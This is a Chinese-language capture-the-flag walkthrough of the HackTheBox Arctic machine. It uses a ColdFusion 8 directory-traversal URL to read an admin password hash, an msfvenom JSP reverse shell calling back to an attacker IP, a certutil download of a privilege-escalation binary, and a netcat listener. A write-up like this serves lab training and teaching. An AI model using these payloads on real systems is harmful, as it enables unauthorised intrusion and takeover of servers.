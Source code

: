 ```yaml
---
title: Hackthebox::Arctic walkthrough
date: 2021/12/28
categories: 渗透测试
tags: [渗透测试,walkthrough]
temp_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_23.jpg
banner_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_23.jpg
---
```




- **Arctic是hackthebox上一台简单难度的windows靶机**

# 信息收集

- 首先使用nmap进行端口扫描

![image-20211227235510440](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211227235510440.png)

- 再使用nmap进行简单的漏洞扫描，但是这次漏洞扫描失败了，貌似是连接问题

![image-20211227235600047](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211227235600047.png)

- 通过两次nmap扫描，我们得到了有用的信息：

```
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
```

- 浏览器打开靶机8500端口查看

![image-20211228000308471](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228000308471.png)

- 点击CFIDE目录进行进一步的枚举

![image-20211228000324604](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228000324604.png)

- 点击administrator文件，发现是一个登录窗口

![image-20211228000552606](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228000552606.png)

- 这个页面有关**ColdFusion 8**， 我们不知道这是什么但肯定是一个系统，百度一下，发现答案都已经快出来了

![image-20211228001208827](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228001208827.png)

- 使用searchsploit查看这个是否存在漏洞

![image-20211228001306056](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228001306056.png)

- 我们发现这个存在可以利用的漏洞，貌似有文件上传和目录遍历漏洞，再使用msf看看是否可以直接利用

![image-20211228002139201](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228002139201.png)

- 都无法利用，可能是因为网络问题，接着参考别人的walkthrough，发现千篇一律的使用目录遍历漏洞，好吧我们也使用这个
- 之前我们发现网站登录页面使用了ColdFusion 8，在这之前加上adobe，然后在 exploitdb 上面查看漏洞

![image-20211228010052879](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228010052879.png)

- 按照上面提到的方式，进入 `http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en` 页面，我们发现了密码的哈希值： `2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03` 

![image-20211228010532393](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228010532393.png)

- 使用[这个网站](https://crackstation.net/)解哈希，得到密码 happyday

![image-20211228010752709](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228010752709.png)

- 使用刚才的密码以管理员的身份登录后台

![image-20211228011144857](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228011144857.png)

- 创建反向shell 

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.31 LPORT=5555 > shell.jsp
```

![image-20211228014733671](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228014733671.png)

- 在靶机后台新建一个任务

![image-20211228015729922](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228015729922.png)

- 注意里面的 File填 `C:\ColdFusion8\wwwroot\CFIDE\shell.jsp`

![image-20211228020036038](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228020036038.png)

- 然后我们可以看见任务已经被创建了，然后点击运行

![image-20211228021129490](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228021129490.png)

- 回到 http://10.129.1.58:8500/CFIDE/ 刷新后就能看到我们上传的脚本shell.jsp 了

![image-20211228021153641](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228021153641.png)

- 本地nc监听端口，我们收到了shell

![image-20211228023926873](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228023926873.png)

- 接下来我们需要提权，使用权限提升脚本
- 使用脚本 chimichurri.exe，并在windows靶机中接收脚本

```
certutil -f -urlcache http://10.10.14.31:8000/Chimichurri.exe chimichurri.exe
```

![image-20211228025330194](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228025330194.png)

- 本地nc监听端口6666，靶机上 使用命令 

```
chimichurri.exe 10.10.14.31 6666
```

![image-20211228032510841](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228032510841.png)

- 这时候本地nc就能够收到shell了

![image-20211228032556501](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228032556501.png)

- 得到管理员权限，并且找到flag

![image-20211228032754084](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228032754084.png)


